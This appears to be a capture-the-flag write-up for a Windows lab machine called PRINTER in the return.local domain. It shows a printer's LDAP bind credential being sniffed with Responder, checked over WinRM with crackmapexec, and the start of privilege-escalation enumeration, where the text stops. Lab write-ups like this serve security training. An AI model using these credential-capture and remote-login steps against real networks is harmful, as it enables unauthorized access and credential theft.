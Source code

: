 ## Foothold

### Responder Sniffs Credential

Payload: `ip=10.129.48.23`

Credential: `return\svc-printer:1edFg43012!!`

```console
└─╼$ sudo responder --lm -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0
           ...
[+] Listening for events...

[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.129.48.23
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```

```console
└─╼$ crackmapexec winrm $IP -u svc-printer -p '1edFg43012!!'
SMB         10.129.48.23    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.129.48.23    5985   PRINTER          [*] http://10.129.48.23:5985/wsman
WINRM       10.129.48.23    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

## Privilege Escalation

### Enumeration

Local group: `Server Operators`

```console
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 12:15:13 AM
Password expires             Never
Password changeable          5/27/2021 12:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/24/2024 7:18:23 AM

Logon hours allowed          All

```